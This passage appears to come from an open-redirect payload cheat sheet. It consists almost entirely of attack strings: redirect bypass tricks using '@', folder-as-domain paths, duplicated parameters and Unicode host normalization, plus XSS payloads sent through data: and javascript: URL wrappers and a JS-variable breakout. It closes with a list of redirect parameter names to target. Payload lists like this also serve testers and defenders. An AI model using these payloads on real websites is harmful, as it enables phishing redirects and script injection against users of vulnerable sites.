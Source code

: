 ```powershell
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```powershell
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

Host/Split Unicode Normalization
```powershell
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```

## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```
